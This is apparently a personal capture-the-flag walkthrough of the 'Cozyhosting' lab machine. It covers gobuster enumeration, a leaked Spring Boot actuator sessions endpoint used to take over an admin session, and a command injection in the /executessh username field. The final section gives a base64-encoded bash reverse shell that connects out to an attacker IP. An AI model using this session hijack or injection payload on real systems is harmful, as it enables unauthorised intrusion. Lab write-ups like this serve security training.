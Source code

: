 # Cozyhosting


## Spring boot
the 404 page reveals `# Whitelabel Error Page` which identifies the spring boot framework
## gobuster
Command
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -t 100 -u http://cozyhosting.htb -o cozy.gobuster
```
![[Pasted image 20231125073346.png]]

## subdomain
Nothing interesting

## gobuster
Running it again with wordlist tailored to spring boot since we identified it we find 
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt -t 100 -u http://cozyhosting.htb -o cozy.gobuster
```
![[Pasted image 20231125075005.png]]


Looking around we dont find anything interesting except the /sessions

# Spring boot actuator

## What is actuator
```
Actuator endpoints let you monitor and interact with your application. _Spring Boot_ includes a number of built-in endpoints and lets you add your own
```
## Sessions

upon visiting `/actuator/session`,
![[Pasted image 20231125081009.png]]
we get a username and JSESSIONID the unauthorized one is us

so by changing the JSESSIONID
![[Pasted image 20231125081104.png]]
we get logged in as admin

## Kanderson Admin
![[Pasted image 20231125081133.png]]


## executessh

We find theres a ssh connection settings
![[Pasted image 20231125084043.png]]
looking it in burp we find its /executessh


![[Pasted image 20231125084027.png]]
after fuzzing with username we find its running bash in command line
lets see what commands are available
for whitespace substituion we can do ${IFS}
we find `id whoami pwd` doesnt seem to work but `ping` works lets try our reverse shell


## Payload
We encode our payload in base64 pipe it over to bash jar
```bash
host=localhost&username=user;echo${IFS}L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNDkvOTAwMSAwPiYxJwo=|base64${IFS}-d|bash;
```

[[00- Easy/Cozyhosting/Initial foothold|Initial foothold]]